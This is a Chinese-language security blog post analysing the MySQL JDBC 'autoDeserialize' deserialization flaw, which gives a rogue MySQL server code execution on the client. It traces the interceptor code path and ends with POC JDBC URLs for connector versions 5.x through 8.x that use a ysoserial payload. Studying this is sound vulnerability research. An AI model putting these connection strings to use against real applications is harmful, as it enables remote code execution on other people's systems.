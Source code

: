 # Java JDBC Attack-MySQL

  
  
&lt;!--more--&gt;  
## 0x01 **原理概述**  
扩展参数就是本次导致安全漏洞的一个重要的部分  
MySQL JDBC包含了一个危险的扩展参数:`autoDeserialize`。这个参数配置为 true 时，JDBC客户端将会自动反序列化服务端返回的数据，这就产生了RCE  
此时如果攻击者作为 MYSQL 服务器的角色，给客户端返回了恶意的序列化数据，客户端就会自动反序列化触发恶意代码，造成漏洞。  
主要会用到如下两类参数  
- 自动检测与反序列化存在BLOB字段中的对象。 **autoDeserialize**  
- 触发反序列化  
    - queryInterceptors，一个逗号分割的Class列表（实现了`com.mysql.cj.interceptors.QueryInterceptor`接口的Class），在Query&#34;之间&#34;进行执行来影响结果。  
    - detectCustomCollations  
通过`ServerStatusDiffInterceptor`或`detectCustomCollations`触发查询语句`SHOW SESSION STATUS`、`SHOW COLLATION`等，并调用`resultSetToMap`处理数据库返回的结果，而当`autoDeserialize`为true时会对server中返回的结果进行反序列化，从而造成代码执行  
## 0x02 漏洞分析  
`pom.xml`  
```xml  
&lt;dependency&gt;    
    &lt;groupId&gt;mysql&lt;/groupId&gt;    
    &lt;artifactId&gt;mysql-connector-java&lt;/artifactId&gt;    
    &lt;version&gt;8.0.13&lt;/version&gt;    
&lt;/dependency&gt;  
```  
Demo  
```java  
import java.sql.Connection;    
import java.sql.DriverManager;    
    
public class JDBC_Mysql {    
    public static void main(String[] args) throws Exception{    
        String driver = &#34;com.mysql.jdbc.Driver&#34;;    
        String DB_URL = &#34;jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc&#34;;//8.x使用    
        Class.forName(driver);    
        Connection conn = DriverManager.getConnection(DB_URL);    
    }    
}  
```  
  
```  
queryInterceptors，一个逗号分割的Class列表（实现了com.mysql.cj.interceptors.QueryInterceptor接口的Class），在Query&#34;之间&#34;进行执行来影响结果。  
```  
所以如上所述，想要触发`queryInterceptors`则需要触发`SQL Query`，而在`getConnection`过程中，会触发`SET NAMES utf`、`SET autocommit=-1`一类的请求，所以会触发我们所配置的`queryInterceptors`。  
`ServerStatusDiffInterceptor`的`preProcess`方法（执行 SQL query前需要执行的方法），调用了`populateMapWithSessionStatusValues`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162142671.png)
跟进查看`populateMapWithSessionStatusValues()`方法，执行了`SHOW SESSION STATUS`并获取了返回结果，进入到了`resultSetToMap()`方法，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162142836.png)
继续跟进，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162144369.png)
这里直接进入了`com.mysql.cj.jdbc.result.ResultSetImpl#getObject`方法，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162147273.png)
当1 或2字段为 Blob 且存储了序列化的数据，即可触发`readObject()`方法  
这里还需要注意需要满足此条件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162148585.png)
## 0x03 **POC**  
各版本均有差异  
**ServerStatusDiffInterceptor 触发**  
8.x   
```  
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc  
```  
6.x(属性名不同)  
```  
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc  
```  
5.1.11及以上的5.x版本(包名没有cj)  
```  
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc  
```  
5.1.10及以下的5.1.X版本：同上，但是需要连接后执行查询。  
**detectCustomCollations触发**  
5.1.29-5.1.40  
```  
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&amp;autoDeserialize=true&amp;user=yso_JRE8u20_calc  
```  
5.1.28-5.1.19  
```  
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;user=yso_JRE8u20_calc  
```  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/java-jdbc-attack-mysql/  

